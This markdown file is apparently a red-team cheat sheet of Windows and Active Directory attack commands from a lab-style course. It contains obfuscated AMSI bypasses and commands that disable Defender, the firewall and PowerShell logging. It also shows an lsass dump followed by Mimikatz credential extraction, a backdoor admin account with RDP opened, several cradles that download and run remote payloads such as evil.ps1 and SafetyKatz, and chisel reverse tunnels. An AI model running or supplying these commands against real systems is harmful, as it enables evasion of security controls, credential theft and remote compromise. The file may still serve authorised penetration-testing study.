

# Miscellaneous Notes
---
## Bypass AMSI and ETW
```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

#Base64
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)

#On PowerShell 6
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('s_amsiInitFailed','NonPublic,Static').SetValue($null,$true)

# Bypass AMSI and ETW based detection by loading the binary using loader utility
C:\Users\Public\Loader.exe -path http://10.10.10.10/SafetyKatz.exe
C:\Users\Public\AssemblyLoad.exe http://10.10.10.10/Loader.exe -path http://10.10.10.10/SafetyKatz.exe
```

## Bypass Real-Time-monitoring
```powershell
Powershell Set-MpPreference -DisableRealtimeMonitoring $true
Powershell Set-MpPreference -DisableIOAVProtection $true
powershell set-MpPreference -DisableAutoExclusions $true
"C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```

## Bypassing PowerShell Logging
```powershell
# Use Invisi-Shell to bypass powershell logging (has inbuild AMSI evasion)
# NOTE: Invisi-Shell may interfere with some process like Saftelykatz, use Loader.exe for such cases

# With Admin Rights
C:\AD\Tools\InviShell\RunWithPathAsAdmin.bat
# Without Admin Rights (modifies registry entries, and is recommended method)
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
```

## Bypassing Applocker & WDAC Bypas
```powershell
# Check if Powershell is running in Constrained Language Mode (It may be because of Applocker or WDAC)
$ExecutionContext.SessionState.LanguageMode

# Check applocker policy for Application Whitelisting via Powerview and Registry (reg.exe)
Get-AppLockerPolicy –Effective
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
Get-ChildItem "HKLM:Software\Policies\Microsoft\Windows\SrpV2"
Get-ChildItem "HKLM:Software\Policies\Microsoft\Windows\SrpV2\Exe"
reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2

# Identify the GPO Policy responsible Applocker
Get-DomainGPO -Domain root.domain.local | ? { $_.DisplayName -like "*PAW*" } | select displayname, gpcfilesyspath

# Download the GPO Registry Policy file from sysvol share on AD to view applocker policy details
type "\\root.domain.local\SysVol\root.domain.local\Policies\{AFC6881A-5AB6-41D0-91C6-F2390899F102}\Machine\Registry.pol"

# Based on policy we need to identify the bypass technique for Applocker (like Whitelisted path)
Get-Acl C:\Windows\Tasks | fl

# Check Windows Device Guard (WDAC) enforcement policy
wmi
Get-CimInstance -ClassName Win32_DeviceGuard -Namespace root\Microsoft\Windows\DeviceGuard

# Bypass for WDAC using rundll32.exe and comsvcs.dll to dump the lsass process
tasklist /FI "IMAGENAME eq lsass.exe"
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump <id> C:\Users\Public\lsass.dmp full
echo F | xcopy \\us-jump\C$\Users\Public\lsass.dmp C:\AD\Tools\lsass.dmp
Invoke-Mimikatz -Command "sekurlsa::minidump C:\AD\Tools\lsass.DMP"
```

## PS Remoting without logging
```powershell
winrs -r:us-adconnect cmd
winrs -remote:server1 -u:server1\administrator -p:Pass@1234 hostname

# Runas cmd as another user ( has logging )
runas /netonly /user:us\serviceaccount  cmd.exe
```

## Managing/Disabling firewall 
```powershell
# disable firewall
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
powershell.exe -c 'Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False'
```

## Create PowerShell credentials and execute commands
```powershell
$pass = ConvertTo-SecureString "Password123!" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("CORP\john", $pass)

# Enter PSSession
Enter-PSSession -computername ATSSERVER -ConfigurationName dc_manage -credential $cred

# New-PSSession


# Invoke-command for command injection
Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -credential $cred -command {whoami}
```

## Adding User Groups
```powershell
# Adding User to local administrator group
net localgroup administrators user /add

# Add user to local admin and RDP group and enable RDP on firewall
net user <USERNAME> <PASSWORD> /add /Y  && net localgroup administrators <USERNAME> /add && net localgroup "Remote Desktop Users" <USERNAME> /add && reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f && netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```

## Running commands in a specific user context in PowerShell
```powershell
powershell.exe -c "$user='WORKGROUP\John'; $pass='password123'; try { Invoke-Command -ScriptBlock { Get-Content C:\Users\John\Desktop\secret.txt } -ComputerName Server123 -Credential (New-Object System.Management.Automation.PSCredential $user,(ConvertTo-SecureString $pass -AsPlainText -Force)) } catch { echo $_.Exception.Message }" 2>&1
```

## Command to check whoami after pass-the-hash attack
+ Send whoami query to root dc domain of the forest
```powershell
Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```

##  Download execute cradle
```powershell
# Normal Download and execute
PS> iex (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1')

PS> $ie=New-Object -ComObject InternetExplorer.Application
PS> $ie.visible=$False;$ie.navigate('http://10.10.10.10/evil.ps1')
PS> sleep 5
PS> $response=$ie.Document.body.innerHTML;$ie.quit()
PS> iex $response

# Combined
$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://10.10.10.10/evil.ps1');sleep 1;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response

# Powershell Version 3
PS> iex (iwr 'http://10.10.10.10/evil.ps1')

# Powershell 3 and onwards
PS> $h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://10.10.10.10/evil.ps1',$false);$h.send();iex $h.responseText

PS> $wr = [System.NET.WebRequest]::Create("http://10.10.10.10/evil.ps1")
PS> $r = $wr.GetResponse()
PS> IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```

## File Transfer
```powershell
# using bitsadmin to transfer files
PS:\> winrs -r:us-mailmgmt -u:.\administrator -p:password "bitsadmin /transfer WindowsUpdates /priority normal http://10.10.10.10/Loader.exe C:\\Windows\\Tasks\\Loader.exe"

# transfer using net use
PS:\> net use x: \\us-mailmgmt\C$\Users\Public /user:us-mailmgmt\Administrator password

PS:\> echo F | xcopy C:\AD\Tools\Loader.exe x:\Loader.exe
# or 
PS:\> echo F | xcopy C:\AD\Tools\Loader.exe \\us-jump\C$\Users\Public\Loader.exe /Y

PS:\> net use x: /d
PS:\> winrs -r:us-mailmgmt -u:.\administrator -p:password cmd.exe

# now we can use loader.exe (testing) (host it on HFS first)
PS:\> C:\Users\Public\Loader.exe -path http://10.10.10.X/SafetyKatz.exe 

# Base 64 encode and decode
certutil -decode b64.txt malware.exe
certutil -encode malware.exe b64.txt
```

## IMP commands/notes
```powershell
# connection using WINRS
PS:\> winrs -r:us-mailmgmt -u:.\administrator -p:password cmd.exe

# connect to a new user on the domain
PS:\> runas /netonly /user:us\pwnadmin cmd.exe

# Check the shares
net view \\root-dc.htb.local

# SID Filter greater than 
Get-ADGroup -Filter 'SID -ge' "sid-place-holder-1000" -Server domain.local
```

## Loading Enum Scripts
```powershell
# Loading powerview locally
ps> . C:\AD\Tools\PowerView.ps1

# Loading ActiveDirectory Module (Also works in Constrained Language Mode)
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll
Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```

## Chisel
```powershell
# Getting access to Jenkins using chisel

# student machine:
.\chisel.exe server -p 5000 --reverse

# attacker machine:
./chisel client 10.10.10.attacker:5000 8080:127.0.0.1:10.10.10.victim:8080

# Or Impacket via chisel socks:
# ufc-app1:
.\chisel.exe server --socks5 -p 5555 --reverse

# student:
.\chisel.exe client 10.10.10.victim:5555 8888:socks
.\chisel.exe server --socks5 -p 6666 --reverse

# attacker:
./chisel client 10.10.10.attacker:6666 9999:socks

# set up proxychains
proxychains smbexec.py domain/user@10.10.10.10 -hashes :hash
```

## Recursively look for group membership

+ The ActiveDirectory module command Get-ADPrinicpalGroupMemebsrhip does not provide ability to recursively look for group membership. Therefore, we can use the following simple PowerShell code from InvisiShell. Note that the code uses the ActiveDirectory module so that should be imported first.

```csharp
function Get-ADPrincipalGroupMembershipRecursive ($SamAccountName) 
{
 $groups = @(Get-ADPrincipalGroupMembership -Identity $SamAccountName | 
select -ExpandProperty distinguishedname)
 $groups
 if ($groups.count -gt 0) 
 {
 foreach ($group in $groups) 
 {
 Get-ADPrincipalGroupMembershipRecursive $group
 }
 }
}

// Get-ADPrincipalGroupMembershipRecursive 'user'
```



